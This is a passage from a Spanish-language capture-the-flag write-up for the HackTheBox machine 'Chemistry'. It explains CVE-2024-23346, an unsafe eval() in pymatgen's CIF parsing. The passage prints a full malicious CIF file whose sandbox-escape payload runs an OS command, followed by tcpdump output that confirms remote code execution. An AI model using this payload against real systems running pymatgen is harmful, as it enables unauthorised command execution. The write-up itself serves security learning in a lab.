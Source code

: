 Nos registramos para acceder al servicio. Nos da la opción de subir un archivo `CIF` para su análisis.

<img src="/assets/HTB/Chemistry/dashboard.png">

## CVE-2024-23346

Buscamos por vulnerabilidades asociadas a archivos `CIF` encontramos el [CVE-2024-23346](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). Existe una vulnerabilidad de seguridad crítica en el método `JonesFaithfulTransformation.from_transformation_str()` dentro de la biblioteca `pymatgen`. Este método utiliza de forma insegura `eval()` para procesar la entrada, lo que permite la ejecución de código arbitrario al analizar entradas que no son de confianza. Esto se puede aprovechar al analizar un archivo `CIF` creado con fines malintencionados.

Para poder probar si nuestra web es vulnerable creamos un archivo `vuln.cif` con la siguiente estructura.

```java
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping 10.10.14.19");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Nos ponemos en escucha de trazas `ICMP` con la herramienta `tcpdump` y subimos el archivo malicioso creado. Pulsamos en `View` una vez subido y confirmamos que tenemos capacidad de ejecución remota de comandos.

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:17:04.219138 IP 10.10.11.38 > 10.10.14.19: ICMP echo request, id 2, seq 1, length 64
19:17:04.219161 IP 10.10.14.19 > 10.10.11.38: ICMP echo reply, id 2, seq 1, length 64
19:17:05.220286 IP 10.10.11.38 > 10.10.14.19: ICMP echo request, id 2, seq 2, length 64
19:17:05.220309 IP 10.10.14.19 > 10.10.11.38: ICMP echo reply, id 2, seq 2, length 64
19:17:06.222581 IP 10.10.11.38 > 10.10.14.19: ICMP echo request, id 2, seq 3, length 64
19:17:06.222598 IP 10.10.14.19 > 10.10.11.38: ICMP echo reply, id 2, seq 3, length 64
```
